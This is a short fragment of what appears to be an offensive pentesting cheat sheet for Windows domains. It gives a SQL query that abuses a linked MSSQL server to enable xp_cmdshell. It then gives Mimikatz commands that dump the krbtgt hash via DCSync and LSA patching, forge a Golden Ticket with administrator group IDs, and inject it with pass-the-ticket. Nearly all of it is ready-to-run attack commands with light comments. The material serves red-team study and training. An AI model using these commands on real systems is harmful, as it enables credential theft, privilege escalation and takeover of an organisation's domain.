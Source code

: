 # You can also use meterpreter module exploit/windows/mssql/mssql_linkcrawler
# With meterpreter module you can find linked databases and if you are admin on them

# You can do a query and try to enable xp_cmpshell on that server
select * from openquery("server",'select * from master..sysservers') EXECUTE AS USER = 'internal_user' ('sp_configure "xp_cmdshell",1;reconfigure;') AT "server"
</code></pre>


# Golden and Silver Tickets

Keys depend of ticket :
--> for a Golden, they are from the krbtgt account;
--> for a Silver, it comes from the "computer account" or "service account".

<pre class="prettyprint linenums:"><code class="language-py"># Golden Ticket
# Extract the hash of the krbtgt user
lsadump::dcsync /domain:evil.corp /user:krbtgt
lsadump::lsa /inject
lsadump:::lsa /patch
lsadump::trust /patch

# creating the ticket 
# /rc4 or /krbtgt - the NTLM hash
# /sid you will get this from krbtgt dump
# /ticket parameter is optional but default is ticket.kirbi
# /groups parameter is optional but default is 513,512,520,518,519
# /id you can fake users and supply valid Administrator id 

kerberos::golden /user:morph3 /domain:evil.corp /sid:domains-sid /krbtgt:krbtgt-hash /ticket:ticket.kirbi /groups:501,502,513,512,520,518,519 
kerberos::ptt golden.tck # you can also add /ptt at the kerberos::golden command
# After this , final ticket must be ready
